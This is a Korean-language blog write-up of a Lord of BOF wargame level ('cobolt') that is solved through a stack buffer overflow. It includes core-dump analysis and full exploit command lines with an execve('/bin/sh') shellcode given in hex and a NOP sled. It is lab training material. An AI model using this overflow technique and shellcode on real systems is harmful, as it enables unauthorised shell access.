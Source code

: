 LOB 추가 과제로 argv[2] 변수를 이용해 5문제중 하나를 푸는 것이 나왔다. 한 3주를 먹고 놀았더니 기억이 가물가물한데, 어쨌거나 가보자.

![](img/6-01.png)

페이로드를 위한 코드를 먼저, 그다음 argv에 쉘 코드를 집어넣는 방식으로 입력했다. 이렇게 argv 2개를 이용해 core dump 파일부터 만들었다. 덤프 파일을 분석해보자.

![](img/6-02.png)

오랜만에 하니까 기억이 가물가물해서 core dump 파일 만들어놓고 불러오는 법도 못 찾았다. 여튼 -c로 잘 열었다. 이제 메모리를 들여다보자.

![](img/6-03.png)

입의로 입력한 쓰레기 값 뒤에 argv가 위치하는데 이때 문제가 발생한다. 쉘코드가 입력되기 시작하는 값 앞에 데이터가 들어가, 쉘코드가 정상적으로 순서대로 들어갈 수 없어진다. 이를 해결하기 위해 끝자리에 임의의 값 2자를 넣었다.

![](img/6-04.png)

그러니까 정상적으로 데이터가 맞춰져 들어가는 모습이다. 이제 리턴값에 우리가 읽어야 할 쉘코드의 주솟값을 넣어보자.

우리가 짠 쉘코드는 ./coboltt `python -c 'print "A"*24'` `python -c 'print  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"aa"'` 였다. 첫번째 입력자 끝부분 4바이트에 쉘코드의 주솟값인 0xbffffe04를 넣으면 되지 않을까? 해보자.

스크린샷을 못찍었는데 일단 안된다. 리턴값이 제 주소에 안들어간다. 뭐가 문젠지 생각을 해보도록 하자

./cobolt `python -c 'print "A"*20 + "\x04\xfe\xff\xbf"'` `python -c 'print "\x90" * 50 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"aa"'`


![](img/6-05.png)

주솟값 bfffef04로 입력해놓고 왜 입력안되나 30분동안 고생했다. 아..ㅋㅋㅋㅋㅋㅋ

문제가 발생했는데, 저게 원본 cobolt 파일에 적용이 안된다. cobolt파일은 접근도 할 수 없어서 뭐가 문젠지도 모르겠다. 개가튼거...

우선 nop를 넣지 않은 상태로 시도해서 실패했으니, nop를 넣은 상태로 다시 시도해보자.

![](img/6-06.png)

nop를 넣으니까 너무 잘됝다. 왜죠? nop 넣고 주솟값 넣어도 되는거 처음 알았다.